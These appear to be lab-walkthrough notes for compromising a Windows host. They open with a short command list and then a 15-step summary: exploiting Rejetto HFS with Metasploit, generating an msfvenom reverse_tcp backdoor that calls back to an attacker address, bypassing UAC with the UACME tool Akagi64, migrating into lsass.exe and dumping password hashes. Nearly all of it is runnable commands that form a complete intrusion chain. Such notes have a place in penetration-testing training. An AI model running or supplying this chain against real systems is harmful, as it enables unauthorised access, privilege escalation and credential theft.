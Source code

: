 


- nmap IP
- use exploit/windows/http/rejetto_hfs_exec
- migrate explorer.exe
- shell 
- net localgroup administrators 

The admin user is a member of the Administrators group. However, we do not have the high privilege as of now. We can gain high privilege by Bypassing UAC (User Account Control)

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe' 
- file ''backdoor.exe' 
- CTRL + C 
- cd C:\\Users\\admin\\AppData\\Local\\Temp 
- upload /root/Desktop/tools/UACME/Akagi64.exe . 
- upload /root/backdoor.exe .

- The UACMe tool located in "/root/Desktop/tools/UACME/" directory
- Switch the directory to the user’s temp folder and upload the Akagi64.exe and backdoor.exe executable
- use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp



Here are the summary steps from the document in bullet points:

1. Step 1: Check the target IP address.
    
    - Command: `cat /root/Desktop/target`
2. Step 2: Run an initial Nmap scan against the target IP.
    
    - Command: `nmap 10.0.27.103`
3. Step 3: Determine version information on port 80.
    
    - Command: `nmap -sV -p 80 10.0.27.103`
4. Step 4: Search for the exploit module for the HFS file server using searchsploit.
    
    - Command: `searchsploit hfs`
5. Step 5: Exploit the target server using the Metasploit framework for RCE.
    
    - Commands:
        - `msfconsole -q`
        - `use exploit/windows/http/rejetto_hfs_exec`
        - `set RHOSTS 10.0.27.103`
        - `exploit`
6. Step 6: Check the current user.
    
    - Commands:
        - `getuid`
        - `sysinfo`
7. Step 7: Migrate the process to explorer.exe for higher privilege.
    
    - Commands:
        - `ps -S explorer.exe`
        - `migrate 2444`
8. Step 8: Attempt to elevate to high privilege.
    
    - Command: `getsystem`
9. Step 9: Get a Windows shell and check if the admin user is in the Administrators group.
    
    - Commands:
        - `shell`
        - `net localgroup administrators`
10. Step 10: Generate a malicious executable using msfvenom and run it on the target machine.
    
    - Commands:
        - Generate executable: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'`
        - Check the file: `file 'backdoor.exe'`
11. Step 11: Switch to the user's temp folder and upload the Akagi64.exe and backdoor.exe.
    
    - Commands:
        - Navigate to the temp folder: `cd C:\\Users\\admin\\AppData\\Local\\Temp`
        - Upload files: `upload /root/Desktop/tools/UACME/Akagi64.exe .` and `upload /root/backdoor.exe .`
        - List files: `ls`
12. Step 12: Start another msfconsole and run a multi-handler.
    
    - Commands:
        - `msfconsole -q`
        - `use exploit/multi/handler`
        - Configure settings: `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 10.10.1.3`, `set LPORT 4444`
        - Exploit: `exploit`
13. Step 13: Switch back to the meterpreter and run Akagi64.exe.
    
    - Commands:
        - Access shell: `shell`
        - Run Akagi64.exe with full path: `Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe`
14. Step 14: Migrate into the lsass.exe process.
    
    - Commands:
        - Find lsass.exe PID: `ps -S lsass.exe`
        - Migrate: `migrate 680`
15. Step 15: Dump the hashes.
    
    - Command: `hashdump`

These steps detail the process of exploiting a vulnerability to gain high privilege access and retrieve user hashes from the target system.